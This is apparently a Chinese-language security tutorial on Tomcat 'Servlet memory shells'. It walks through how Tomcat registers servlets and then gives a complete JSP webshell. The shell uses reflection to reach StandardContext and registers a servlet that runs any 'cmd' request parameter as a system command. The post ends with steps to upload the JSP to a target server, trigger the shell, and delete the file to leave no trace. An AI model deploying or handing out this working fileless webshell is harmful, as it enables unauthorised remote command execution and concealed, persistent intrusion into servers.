






# Servlet内存马

Servlet内存马是通过动态注册Servlet来实现的一种内存攻击手段。在Java Web应用中，Servlet作为处理客户端请求的核心组件之一，能够直接处理HTTP请求并返回响应。攻击者利用这一点，通过程序化地向Web容器（如Tomcat）在运行时注册恶意的Servlet对象，使得该Servlet能够在没有实际文件存在的情况下执行恶意程序。

在编写我们自己的内存马之前，我们需要先搞清楚一个问题：我们写的Servlet类是怎么被装载到Web容器的。

## Servlet装载流程

1. 自己写一个Servlet

```java
package com.example.memshell;

import java.io.*;

import jakarta.servlet.http.*;

public class HelloServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("hello world");
    }
}
```

2. 在web.xml定义servlet（servlet名称和类的全路径）和servlet-mapping（servlet和对应的uri）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <servlet>
        <servlet-name>HelloServlet</servlet-name>
        <servlet-class>com.example.memshell.HelloServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>HelloServlet</servlet-name>
        <url-pattern>/hello</url-pattern>
    </servlet-mapping>
</web-app>
```

3. tomcat的加载部分

不卖关子，在ContextConfig#configureContext(WebXml webxml)部分。



这个类来自tomcat-catalina，至于版本，和tomcat运行时环境版本保持一致

```
 <dependency>
      <groupId>org.apache.tomcat</groupId>
      <artifactId>tomcat-catalina</artifactId>
      <version>10.1.23</version>
  </dependency>
```

继续分析ContextConfig#configureContext(WebXml webxml)部分



观察入参的webxml实参变量，其中就包含我们在web.xml中定义的HelloServlet和映射路径信息。分别叫webxml.servlets和webxml.servletMappings。这些信息又是在哪里被处理的呢？注意函数下这两个for循环





一个是处理servlet的循环，一个是处理url映射关系的循环。这里都用到了context这个对象。

我们看一下最关键的两行添加进容器的代码，分别是

```java
context.addChild(wrapper);
```

和

```java
context.addServletMappingDecoded(entry.getKey(), entry.getValue());
```

一个是向容器上下文中添加我们的Servlet，一个是向容器声明Servlet和URL的映射关系。

context是什么，如何获取？

答：

1. 此处的context是StandardContext



2. HttpServletRequest.getServletContext.context.context



wrapper又是什么？

答：一个servlet的包装类，用于存放servlet的全类名、servlet对象和servlet名称。

搞清楚了这点，我们接下来的思路就简单了

## 实现机制

1. 创建恶意Servlet类
2. 获取context：StandardContext（通过反射）
3. 从context获取Wrapper对象
4. 将自己的Servlet封装进wrapper对象
5. 将wrapper添加到上下文并设置映射路径

## 示例代码

```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 定义一个恶意servlet
    public class ShellServlet extends HttpServlet {
        @Override
        public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader bufferedReader = new BufferedReader(
                        new InputStreamReader(process.getInputStream()));
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    response.getWriter().println(line);
                }
            }
        }
    }
%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();

    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    // 从context获取Wrapper对象
    Wrapper wrapper = standardContext.createWrapper();

    // 将自己的Servlet封装进wrapper对象
    wrapper.setName("servlet-shell");
    wrapper.setServletClass(ShellServlet.class.getName());
    wrapper.setServlet(new ShellServlet());

    // 将wrapper添加到上下文并设置映射路径
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/servlet-shell", "servlet-shell");
%>
```

## 触发步骤

1. 上传jsp木马至目标服务器
2. 访问上传的jsp
3. 访问定义的恶意servlet映射路径，演示的是/servlet-shell
4. （可选）删除.jsp文件
